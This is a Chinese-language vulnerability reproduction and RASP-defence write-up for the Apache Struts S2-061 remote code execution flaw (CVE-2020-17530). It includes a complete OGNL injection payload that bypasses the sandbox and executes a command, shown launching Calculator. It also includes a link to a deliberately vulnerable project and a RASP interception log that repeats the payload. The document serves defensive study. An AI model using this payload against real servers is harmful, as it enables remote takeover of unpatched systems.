




# CVE-2020-17530

## 漏洞简介

Apache Struts于2020年12月08日披露 S2-061 Struts 远程代码执行漏洞(CVE-2020-17530)，在使用某些tag等情况下可能存在OGNL表达式注入漏洞，从而造成远程代码执行,可能照成控制服务器等危害。S2-061是对S2-059沙盒进行的绕过

## 影响版本

Apache Struts 2.0.0-2.5.25


## 漏洞复现

### 环境准备

[这里提供了一个有漏洞的工程](https://gitee.com/xl1605368195/cve-2020-17530.git)

下载之后进入`CVE-2020-17530` 执行 `mvn clean package` 编译出一个 war 包

war 包放在 tomcat/jetty目录下的webapps下，启动tomcat容器，开启运行。



### 发起攻击

+ 请求


+ 具体参数如下
```shell
%{(#instancemanager=#application["org.apache.tomcat.InstanceManager"]).(#stack=#attr["com.opensymphony.xwork2.util.ValueStack.ValueStack"]).(#bean=#instancemanager.newInstance("org.apache.commons.collections.BeanMap")).(#bean.setBean(#stack)).(#context=#bean.get("context")).(#bean.setBean(#context)).(#macc=#bean.get("memberAccess")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance("java.util.HashSet")).(#bean.put("excludedClasses",#emptyset)).(#bean.put("excludedPackageNames",#emptyset)).(#arglist=#instancemanager.newInstance("java.util.ArrayList")).(#arglist.add("/System/Applications/Calculator.app/Contents/MacOS/Calculator")).(#execute=#instancemanager.newInstance("freemarker.template.utility.Execute")).(#execute.exec(#arglist))}
```
+ 弹出计算器


## RASP防护

### 拦截结果



执行的命令

```
/System/Applications/Calculator.app/Contents/MacOS/Calculator
```
调用栈

```json
{
    "method":"POST",
    "remoteHost":"0:0:0:0:0:0:0:1",
    "requestURI":"/SimpleStruts/S2061.action",
    "cookies":[
        {
            "httpOnly":false,
            "maxAge":-1,
            "name":"JSESSIONID",
            "secure":false,
            "value":"699EB5E28E8C0FC6EC469B304575B190",
            "version":0
        }
    ],
    "protocol":"HTTP/1.1",
    "tomcat.request.body.time":0.252951,
    "enableBlock":true,
    "attack":false,
    "cmdArray":[
        "/System/Applications/Calculator.app/Contents/MacOS/Calculator"
    ],
    "stackTrace":[
        "java.lang.ProcessImpl.start(ProcessImpl.java)",
        "java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)",
        "java.lang.Runtime.exec(Runtime.java:621)",
        "java.lang.Runtime.exec(Runtime.java:451)",
        "java.lang.Runtime.exec(Runtime.java:348)",
        "freemarker.template.utility.Execute.exec(Execute.java:84)",
        "sun.reflect.NativeMethodAccessorImpl.invoke0(Native Method)",
        "sun.reflect.NativeMethodAccessorImpl.invoke(NativeMethodAccessorImpl.java:62)",
        "sun.reflect.DelegatingMethodAccessorImpl.invoke(DelegatingMethodAccessorImpl.java:43)",
        "java.lang.reflect.Method.invoke(Method.java:498)",
        "ognl.OgnlRuntime.invokeMethodInsideSandbox(OgnlRuntime.java:1266)",
        "ognl.OgnlRuntime.invokeMethod(OgnlRuntime.java:1251)",
        "ognl.OgnlRuntime.callAppropriateMethod(OgnlRuntime.java:1969)",
        "ognl.ObjectMethodAccessor.callMethod(ObjectMethodAccessor.java:68)",
        "com.opensymphony.xwork2.ognl.accessor.XWorkMethodAccessor.callMethodWithDebugInfo(XWorkMethodAccessor.java:98)",
        "com.opensymphony.xwork2.ognl.accessor.XWorkMethodAccessor.callMethod(XWorkMethodAccessor.java:90)",
        "ognl.OgnlRuntime.callMethod(OgnlRuntime.java:2045)",
        "ognl.ASTMethod.getValueBody(ASTMethod.java:97)",
        "ognl.SimpleNode.evaluateGetValueBody(SimpleNode.java:212)",
        "ognl.SimpleNode.getValue(SimpleNode.java:258)",
        "ognl.ASTChain.getValueBody(ASTChain.java:141)",
        "ognl.SimpleNode.evaluateGetValueBody(SimpleNode.java:212)",
        "ognl.SimpleNode.getValue(SimpleNode.java:258)",
        "ognl.Ognl.getValue(Ognl.java:537)",
        "com.opensymphony.xwork2.ognl.OgnlUtil$4.execute(OgnlUtil.java:500)",
        "com.opensymphony.xwork2.ognl.OgnlUtil.compileAndExecute(OgnlUtil.java:523)",
        "com.opensymphony.xwork2.ognl.OgnlUtil.getValue(OgnlUtil.java:498)",
        "com.opensymphony.xwork2.ognl.OgnlValueStack.getValue(OgnlValueStack.java:371)",
        "com.opensymphony.xwork2.ognl.OgnlValueStack.tryFindValue(OgnlValueStack.java:359)",
        "com.opensymphony.xwork2.ognl.OgnlValueStack.tryFindValueWhenExpressionIsNotNull(OgnlValueStack.java:328)",
        "com.opensymphony.xwork2.ognl.OgnlValueStack.findValue(OgnlValueStack.java:312)",
        "com.opensymphony.xwork2.ognl.OgnlValueStack.findValue(OgnlValueStack.java:379)",
        "com.opensymphony.xwork2.util.TextParseUtil$1.evaluate(TextParseUtil.java:159)",
        "com.opensymphony.xwork2.util.OgnlTextParser.evaluate(OgnlTextParser.java:67)",
        "com.opensymphony.xwork2.util.TextParseUtil.translateVariables(TextParseUtil.java:169)",
        "com.opensymphony.xwork2.util.TextParseUtil.translateVariables(TextParseUtil.java:112)",
        "com.opensymphony.xwork2.util.TextParseUtil.translateVariables(TextParseUtil.java:85)",
        "org.apache.struts2.components.Component.findValue(Component.java:374)",
        "org.apache.struts2.components.Component.findString(Component.java:220)",
        "org.apache.struts2.components.Component.findStringIfAltSyntax(Component.java:317)",
        "org.apache.struts2.components.UIBean.populateComponentHtmlId(UIBean.java:996)",
        "org.apache.struts2.components.UIBean.evaluateParams(UIBean.java:814)",
        "org.apache.struts2.components.Anchor.end(Anchor.java:145)",
        "org.apache.struts2.views.jsp.ComponentTagSupport.doEndTag(ComponentTagSupport.java:39)",
        "org.apache.jsp.S2061_jsp._jspx_meth_s_005fa_005f0(S2061_jsp.java:184)",
        "org.apache.jsp.S2061_jsp._jspService(S2061_jsp.java:133)",
        "org.apache.jasper.runtime.HttpJspBase.service.md(HttpJspBase.java:71)"
    ],
    "localAddr":"0:0:0:0:0:0:0:1",
    "parameters":"----------------------------369628025646548764576220\r\nContent-Disposition: form-data; name=\"id\"\r\n\r\n%{(#instancemanager=#application[\"org.apache.tomcat.InstanceManager\"]).(#stack=#attr[\"com.opensymphony.xwork2.util.ValueStack.ValueStack\"]).(#bean=#instancemanager.newInstance(\"org.apache.commons.collections.BeanMap\")).(#bean.setBean(#stack)).(#context=#bean.get(\"context\")).(#bean.setBean(#context)).(#macc=#bean.get(\"memberAccess\")).(#bean.setBean(#macc)).(#emptyset=#instancemanager.newInstance(\"java.util.HashSet\")).(#bean.put(\"excludedClasses\",#emptyset)).(#bean.put(\"excludedPackageNames\",#emptyset)).(#arglist=#instancemanager.newInstance(\"java.util.ArrayList\")).(#arglist.add(\"/System/Applications/Calculator.app/Contents/MacOS/Calculator\")).(#execute=#instancemanager.newInstance(\"freemarker.template.utility.Execute\")).(#execute.exec(#arglist))}\r\n----------------------------369628025646548764576220--\r\n\u0000",
    "remoteAddr":"0:0:0:0:0:0:0:1"
}
```
